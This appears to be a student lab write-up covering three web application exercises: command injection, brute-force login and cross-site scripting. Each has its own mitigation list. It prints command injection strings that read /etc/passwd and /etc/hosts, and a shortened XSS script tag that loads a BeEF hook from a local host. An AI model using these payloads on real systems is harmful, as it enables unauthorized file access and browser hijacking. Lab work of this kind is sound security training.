 ### Web Application 1: Your Wish is My Command Injection

* Command to show contents of ```etc/passwd``` : ``` 8.8.8.8 &&  cat /../../etc/passwd ```
  ![image](./images/cmd_injection_etc_passwd.PNG)

* Command to show contents of ```etc/hosts ``` : ``` 8.8.8.8 &&  cat /../../etc/hosts ```
  ![image](./images/cmd_injection_etc_hosts.PNG)

#### Mitigations
* Add client side data validation that uses a RegEx to validate that only a IP address is being entered. 
* Add service side data validation that only allows for a valid IPv4 ip address to be used. 
* I would do both of these cause you can never trust the user input validation and should always be double checking server side

### Web Application 2: A Brute Force to Be Reckoned With
 ![image](./images/broken_auth.png)

#### Mitigations
* Add a max retry count for authenticating
* Expire passwords after thirty days of inactivity or after ninety days if actively used
* Implent MFA or other 2FA system. - Really important for any administration systems

### Web Application 3: Where's the BeEF?
* To get around the character lenght limitations on the text box, I just shortened the provided script tag ``` <script src="http://127.0.0.1:3000/hook.js"></script> ```  to be ``` <script src="http://127.0.0.1:3000/hook.js"/> ```. Since there is not Javascript within the body of the script tag you can just at a forward slash at the end of the script tag to close it.
  


![image](./images/petty_theft.png)

![image](./images/petty_theft_attacker.png)

![image](./images/fake_notification_bar.PNG)

#### Mitigations
* URL encode the message so that rendering it directly to the screen doesn't allow for Javascript to be executed.
* Have data validation client side and server side on the user input
